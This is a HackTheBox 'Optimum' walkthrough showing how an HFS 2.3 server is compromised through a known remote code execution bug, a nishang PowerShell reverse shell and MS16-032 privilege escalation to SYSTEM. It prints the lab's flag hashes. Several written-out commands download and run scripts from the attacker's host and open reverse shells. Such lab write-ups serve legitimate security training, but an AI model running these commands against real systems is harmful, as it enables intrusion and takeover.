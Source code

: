 ```yaml
---
title: HackTheBox - Optimum
date: 2021-01-07 02:24:42 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [htb-windows-easy, HttpFileServer, HFS, metasploit, meterpreter, suggester, searchsploit, RCE, tcpdump, nishang, powershell, Sherlock, Watson, Windows-Exploit-Suggester, wesng, CVE-2016-0099, MS16-032, Empire, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/Optimum.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Optimum-full-port-scan.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### HttpFileServer/2.3 (port 80)

![HFS main page](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/80-HFS.png)

#### `gobuster`

![gobuster](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/80-gobuster.png)
___

## Method #1: using Metasploit (failed)

![metasploit search HFS](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-search.png)

![](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-info.png)

### Inspecting payload with Burp

![metasploit HFS exploit options](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-options.png)

The exploit seems to save a visual basic script (`.vbs`) on the target. We press "Forward" button (top left) to go further:

![Burp payload 1](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-BURP-1.png)

Now it execute the malicious script. We press "Forward" again:

![Burp payload 2](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-BURP-2.png)

It worked! We got a **meterppreter** as user `kostas`:

![meterpreter session](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-SUCCESS.png)

### Downloading winPEAS

1. Download [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) (64 bits version)

2. On our machine we run an HTTP Server:

```bash
python3 -m http.server
```

3. From victim's target, go to a world-writeable directory (`c:\Windows\System32\spool\drivers\color>`) and download `winPEAS.exe`: 

```powershell
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
```

Unfortunately, I didn't find anything interesting in **winPEAS** output.

Therefore, I decided to use **metasploit suggester** &darr;

### Exploit Suggester

Running `sysinfo` within our **meterpreter** session shows us an issue. We're facing a Windows with a 64-bit architecture while our meterpreter is 32 bit (x86):

![meterpreter sysinfo](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-sysinfo.png)

#### x86

If we use **metasploit suggester** anyway:

![MSF suggester x86](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-suggest-x86.png)

#### Migrate (x86 &rarr; x64)

In order to fix this, we can open a shell our **meterpreter** session and then use the `migrate` command:

![meterpreter migrate](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-migrate.png)

#### x64

Now we can use suggester:

![MSF suggester x64](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-suggest.png)

No exploits were suggested.

## Method #2: without Metasploit 

First, since our [`nmap` scan](#nmap-scan) identified that the target is running **HttpFileServer** (HFS) version **2.3**, and considering that `gobuster` didn't find any thing, let's search for exploits:

![searchsploit HttpFileServer](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/searchsploit-1.png)

It's interesting to notice that looking for `HFS 2.3` gives us more results:

![searchsploit HFS](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/searchsploit-2.png)

However, let's take a look at the first one:

![download first exploit](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/searchsploit-m.png)

![exploit source code](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/RCE.png)

Okay so it's a very simple RCE:

![testing with ping](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/ping.png)

We can see that the `ping` worked, now we can ask ourselves: _how to get a reverse shell?_ 

### Reverse shell

I tried to use this [one-line powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) but I couldn't make it works.

So I used the one from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) repository (`Invoke-PowerShellTcp.ps1`). We simply add the following line to the script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 1234
```

> Don't forget to run a listener `nc -lnvp 1234`

Using the exploit (49125.py) example, we can make the target download and execute this reverse shell file by doing so:

```bash
$ python3 49125.py $TARGET 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')"
```

![](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum//Invoke-Powersehll.png)

> **NOTE**: `c:\windows\SysNative\` is a folder specific to 64-bit Windows while `c:\windows\System32\` and `c:\windows\SysWow64\` are both 32-bit Windows folders.

Now we got a shell:

![kostas reverse shell](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/reverse-shell.png)

### User (kostas)

```powershell
PS C:\Users\kostas\Desktop> type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

### Windows Exploit Suggester - Next Generation (WES-NG)

Neither [Sherlock](https://github.com/rasta-mouse/Sherlock), [Watson](https://github.com/rasta-mouse/Watson#watson) and [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) worked for me.

However, [wesng](https://github.com/bitsadmin/wesng) (Windows Exploit Suggester Next Generation) helped to find some exploits.

I simply had to save `systeminfo` output into a file and gave it as an argument:

![systeminfo](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/systeminfo.png)

The target machine is **Windows Server 2012 R2 Standard** version **6.3.9600**. It's a 64 bit machine and many patches have been installed as we see _"31 Hotfix(s) Installed"_. 

![wesng](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/wesng.png)

I was interested in **CVE-2016-0099** because of the [Empire](https://github.com/EmpireProject/Empire) exploit &rarr; `Invoke-MS16032.ps1`.

It appears that the target is vulnerable:

![CVE-2016-0099](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/CVE.png)

### Privesc

We have to add this line to `Invoke-MS16032.ps1`:

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/shell.ps1')"
```

The script `shell.ps1` is just a copy of the nishang `Invoke-PowerShellTcp.ps1` script we previously modified. The only difference is the port on which we are redirecting the shell: 

![diff between shell.ps1 and Invoke-PowerShellTcp.ps1](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/shell-script.png)

Go back to our windows reverse shell, download and execute `Invoke-MS16032.ps1` by doing so:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-MS16032.ps1')
```

![MS16032](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/MS16032.png)

Wait for the scripts to be downloaded and executed:

![scripts downloaded](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/http-server-ps1.png)

YES! We have access to SYSTEM shell:

![system](https://pymaster-ft.github.io/assets/img/htb/machines/windows/easy/optimum/system.png)

```powershell
PS C:\users\Administrator\Desktop> type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
___

## Useful links

- [HFS scripting_commands](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)
- [one liner powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
- [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099)
- [MS16-032](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2016/MS16-032)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Watson](https://github.com/rasta-mouse/Watson#watson)
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [wesng](https://github.com/bitsadmin/wesng)
- [Empire](https://github.com/EmpireProject/Empire)